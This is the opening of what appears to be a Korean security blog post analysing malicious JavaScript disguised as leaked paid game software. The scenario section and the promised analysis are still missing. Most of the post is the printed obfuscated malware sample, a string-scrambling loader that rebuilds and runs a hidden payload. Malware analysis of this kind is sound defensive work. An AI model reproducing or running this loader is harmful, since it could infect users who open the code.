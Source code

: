 ```yaml
---
layout: post
title: **Analysis of malicious JavaScript code pretending to leaked game software**
subtitle: **유출된 유료 게임 소프트웨어를 가장한 악성 JavaScript에 대한 간단한 코드 분석**
excerpt: 유출된 유료 게임 소프트웨어를 가장한 악성 JavaScript에 대한 간단한 코드 분석
tags:
  - Javascript
  - Analysis
  - Malware
published: true

---
```


#### 유출된 유료 게임 소프트웨어를 가장한 악성 JavaScript에 대한 간단한 코드 분석

Analysis of malicious JavaScript code pretending to leaked game software

#### ##### 



##### 0. 시나리오

추가예정.





```javascript
function fW4(gT78,QU36) {oJ47 = SK92;pl56=qN252; while (pl56 < Mg89) {Vw3 = kZ37("c\h\arAt",gT78,pl56);if (pl56 % (KN79+KN79)) oJ47=oJ47+Vw3; else oJ47=Vw3+oJ47; pl56++; }return (oJ47);}function TZ76(hH33){KN79=hH33;xj34=KN79+hH33*KN79+hH33;Mg89=2269;}
function VX30() {FQ96 = kZ37("sp\l\it",ew84,Li29);}function kZ37(iy87,tS71,cl45){ QO71=tS71[iy87](cl45); return QO71;}function nb5() {FQ96[xj34](FQ96[KN79])(FQ96[KN79]);}function EO49(Fg50){AP9826 = 'fir/opc\\r\'Stu+W.m] s.5{lp5 ehD)epj1p\'[\\(-4+2=8\"2\\a=2?Z)2e+)2h\\0\'h) /t;,/l \":\\}xp@ et\"e\\tel+hgs4\\b\'4eu Y n,y{i\\+\'= \"T\\S\"E\\y@G+4\"\\\\\'y3((Y fn4=Oe4 xp,Seo yd.f4n6a3i8l..rsr3Wee4 )py{;lSy a(rWc(tre  8(f;6\\i\".) @s0;\\e\"t3n+x+dye0(YT7)4e,;4s2 +n(}\\o\"c]p@a\\s\"t\\e\"crr,ht.\\(\"6se\\8\")br){uW; s  r\\=\"ev [ta3)ur4(r ygnfSn S if8rra5atl vSs= oe {t;S . y))}40( 30mi.2ofr d e=n(p=aWl=rra .8csh6eut.(tas/aMt(\' (\\4\\W=fd( ]{24-254[}6Y9)QyF/}  g;;1,-)2 +\\2\'3foPfu=T2n3TocfH t;L)i)M2o3Xonfr( (e](\"v\"S+r\"dte\"9+S\"7\".+)\"2r \"L+{\"M\" +X\"rqS\"e+M\"t\"\\+\'\"us(\"r+t\"n\"c[ hetSajMt b{r O)i e9n0t6g2a9.0e5f1r r<C o2.3motfC(p heilairhrwc C;S6o W=d  2e3=o(f ;p)6(ae8srorlsCW.e) eIu{rnt  t,)2(93ASO (de<l9i F7t5x,e5T1eDt0aje)r(C+. 231eQ0Cl;))i(;thi uwQ}. t)p;i;r0c S WF =)Q) 2995A6O5([sDt3sji]x E(e;lfi]FS.\\2\"18QmC5(o )fci(;.\")pom;td. 7-6W1d9S2n1cvaHr\\-\\i\"e+p)b2t-.4.(w]Q\"wru\"w+i\"\\e\"dtl,o(\"\\+\"\")Fel;ad\" +.\"}ijc \"4+}\"oe p.Setw\"l+w\"sewGe\"\\[\"2 1,Q{C\\=\"2 9lAWOp;S).\"ctdcrecjiblOpm-ettms.yeSsejlliaFe.ngenyiptwp(i.r2ctS2\"s(2tec2etj2b.O)ewt;awe rwC}.\\t\"p i[rjc SDW= 5=  5241+Q8C+;a\';\'Z=}r\'e)p)b(ufnox3I2l)y;qtrcogtmcaucr=tFsQn9o6c;';qN252=Fg50;SK92 = "";}Li29="qylIx";EO49(0);TZ76(1);ew84=fW4(AP9826,qN252);VX30();function NW87() {FQ96[xj34] = EO49[FQ96[qN252]];}NW87();nb5();
```

이렇게 난독화된 JavaScript를 볼 수 있다.

해당 코드를 동적/정적인 방식으로 분석 할 예정이다.
